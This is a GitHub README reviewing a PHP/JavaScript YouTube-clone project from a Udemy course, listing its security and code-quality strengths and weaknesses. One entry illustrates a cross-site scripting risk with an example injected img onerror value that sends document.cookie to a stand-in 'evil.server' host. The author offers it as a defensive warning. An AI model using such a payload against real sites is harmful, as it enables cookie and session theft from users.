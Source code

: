 # youtube-php-noframework-project
PHP/JS project with udemy course - Youtube clone, including API, ajax, frontend, backend, uploads and all sorts of functionalities </br>
course link - https://www.udemy.com/course/youtube-clone/ </br>

# Strengths: </br>
- Uses PDO and bind parameters </br>
- Uses sha512 hash </br>
- Uses sanitizing user input </br>
- Uses validation of user input </br>
- Uses error messages (that are stored in Constants class as public static) with validation functions (the idea of error array displaying all validation errors that became some kind
of standard instead of sloppy code that would display first error found and then if on resubmit this error goes away would show another one - such things used to happen
in the internet back in the day :) ) </br>
- Code is well structured, good OOP, descriptive names of classes and functions and keeping some kind of standard for the whole project </br>
- Uses regular expressions, built in php functions </br>
- Creates an API he accesses by javascript ajax (although I will never understand why backend php developers are so obsessed with using libraries like jQuery here or axios of example -
javascript fetch API can get the job done without introducing external dependencies and times when js used obscure XmlHTTPRequest are long gone...)</br>
- Some really good CSS... Im not CSS-frontend oriented but worth considering using sass and/or separating one huge style.css</br>
- Use of .text() instead of .html() in jQuery section (idk if its worth mentionting, but some people still let users edit innerHTML of the element, which is kind of like schoolar's
checkmate in terms of security) </br> 
- It is really good, really lengthy project, introducing idea of designing, creating YouTube clone, having API and a lot of client-server communication,
 kind of reactive while using just PHP and JS with no frontend framework, really well structured and preserving one style, one well-read convention through the whole project. </br>
 
# Weaknesses: </br>

- Does not provide types while binding parameters</br>
- Binds parameters before declaring a variable so it "shows in red" in code editor</br>
- I do not see any CORS mechanism in api </br>
- No validation in api whether routes are accessed by POST method or some other HTTP verb </br>
- No use of autoloading feature of any kind while having lengthy imports </br>
- No use of any templating engine </br>
- Using exec() and shell_exec() is always a red alert for me </br>
- I always use "filter_input(INPUT_SERVER, 'PHP_SELF', FILTER_SANITIZE_URL);" on PHP_SELF... just like exec(), it is some kind of red alert for me </br>
- Aside frome critique, I cannot expect one course to cover all sorts of topics, including frontend, security and so on... It is lengthy enough as a good learning project
and good enough for me to show it off that Ive completed it </br>
- EDIT: Been going through code again (since I completed the course some time ago and now im just registering my work) and just noticed 
use of sizeof() alias for count()... It is a bad habit bc it cofuses people who know laguages like C/C++ and expect information of memory allocated from such name...
To be honsest, I have no idea what the creators of PHP had in mind creating such a confusing alias. There are a lot of tricky things that exist both in C and PHP - 
some function names, for(;;) loop, printf("%d", printf("Hello world!")), passing parameters by reference like in C++ and so on... So why name something not
related to memory allocation at all sizeof - I dont know. But I believe one should just not use this alias at all. </br>
- EDIT: In this project we used hard-coded default profile picture, but if it was some real project I would probably make sure that in line here: </br>
\<img src='$coverPhotoSrc' class='coverPhoto'\></br>
$coverPhotoSrc variable will never turn into something like: ' onerror="this.src='http://evil.server/exploit.php?'+document.cookie" />. </br>
It is always better to double check everything, especially if it was some real life scenario and not Udemy course project, that much I know...</br>
- EDIT: Again - profile pic is hardcoded path here but it is worth remembering that uploaded pictures should be rather re-processed with
gd library rather than saved as they come... Another thing to watch out </br>
- EDIT: Just as I secure image files uploaded by the user by copying the contents rather than saving them with gd library I thought, maybe stupidly,
that maybe there is a way to copy the contents of the audio file like that. I mean I dont know what audio file can cause in terms of security,
people say its safe, no executable code, can do buffer overflow like any file but thats it. And of course I know, in linux shell you can copy any file,
some people might not know, but its not only for text files, you can copy images, music as well i think, but using shell exec is a very bad thing.
Plus, when I copy image I do not copy/pase file, I record the contents and output them in another image. Any malicious stuff or exif data
(the way I see it, but something so record those data and store them somwhere is also worth introducing) is not copied.
So equivalent of this in audio files would be playing and recording them. So what im looking for is stupid, also invloves running the file anyways,
probably takes a lot of memory (thats why we destroy image after the job is done in gd... if we close db conncetions in those more advanced projects is
another thing bothering me) but it led me to another interesting problem: not allowing users to download audio files, just letting them to listen, which
makes a lot of sense from the perspective of system design and system intended use. Worth considering </br>


